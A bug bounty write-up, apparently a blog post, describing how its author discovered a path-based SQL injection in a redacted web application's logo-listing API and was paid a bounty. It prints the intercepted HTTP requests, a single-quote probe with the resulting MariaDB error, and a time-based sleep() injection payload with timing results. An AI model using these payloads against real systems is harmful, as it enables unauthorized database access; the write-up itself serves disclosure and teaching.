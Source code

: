 ```yaml
---
title: "The exploitation of a $$$$ SQL Injection Path Based"
date: 2024-06-03 08:13:13 -03
categories: [bugbounty]
tags: [bugbounty]
image: /assets/img/Posts/sqli.png
---
```


# Here is how I exploited a unusual SQL Injection Path Based and got rewarded with bounty 


First of all, here are some sections that will be covered in this article,

```
┌───────────────Summary────────────────┐
│                                      │
│  1. Fase One - Analysing features    │
│     - Finding interesting feature    │
│  2. Fase Two - Exploitation          │
│                                      │
└──────────────────────────────────────┘
```

# Section 1 - Analysing features

In this web application, after logging in, This site had 3 main functionalities, one for creating `ebrochures`, another for creating `embed content`, and another for creating `mini sites`.

All of this 3 functionalities had a logo system, which query all existent logos uploaded to the website, along with a `logo upload` which will be covered in the next article 💀.

<img src="/assets/img/Posts/functionalities.png">


## Finding Interesting Feature

After identifying that there was a `logo upload system`, and that it searched for existing logos using a `query`, I decided to take a deeper look at this part.

<img src="/assets/img/Posts/logofunc.png">

To show the logos that have been approved, it makes a `suspicious query`, and then `loads the page` and makes it possible to upload another logo. 

In this article I will only focus on the exploration part of how the application gets these `approved logos`.


# Section 2 - Exploitation

Now, by intercepting the request to logo endpoint, we have the following:

**Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved,Rejected,Pending/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

Analyzing the request, it was possible to notice that after the include/ endpoint, 

it uses as arguments some values that serve to `identify` the logos, that is, those values that are there are used to `filter` the logos by `approved` logos, `pending approval`, or `rejected`.

Which seems strange, because a `comma` is even being used to separate the arguments, and at the end of the path there is a `sortBy`, which leads me to believe that this endpoint is probably `querying the database` to get the logos

**Request with single quote**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved'/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```

What we got:
```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''Approved'')  ORDER BY CAST(STATUS AS CHAR) ASC, APPROVED_DATE DESC' at line 20, errors: [{errorType: (SYSTEM_ERROR, System Error), errorCode: (030003, System Error), message: Dao Error}]}",
```


<img src="/assets/img/Posts/singlequote.png">


Perfect!, we now know for sure it is vulnerable to SQL Injection.

---

Since we know that the query has '), we need to escape it but fix the syntax by also putting the ), so as not to break the query

**Time Based Payload Request**:

```
GET /api/csb/agency-logos/session/446423692089-1763610-6897710-9302502/include/Approved')+and+sleep(2)+--+-/allAgencies/false/sortBy/DATE_DESC HTTP/2
Host: www.redacted.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers


```


Due to the use of `akamai cdn`, and communication with `internal servers`, sleep payload was taking `6 seconds longer`, that is, `sleep(1)` takes 6 seconds, `sleep(2)` 12 seconds, and `sleep(3)`, 18 seconds, but this did not affect the triage of the report.

**sleep(1)**:

<img src="/assets/img/Posts/1sec.png">

**sleep(2)**:

<img src="/assets/img/Posts/2sec.png">


This was enough to get the report triaged. GG!

---



# Thank you !


<img src="/assets/img/Posts/end.png">

# Report Status


> Reported at - July 9, 2024, 10:26pm UTC

> Triaged at - July 10, 2024, 8:35pm UTC

> Payed at - July 11, 2024, 7:03pm UTC

> OBS: This report was made along with my friend which found this application and program for testing and send it to me, thanks @foorw1nner :)

<img src="/assets/img/Posts/bountysqli.png">
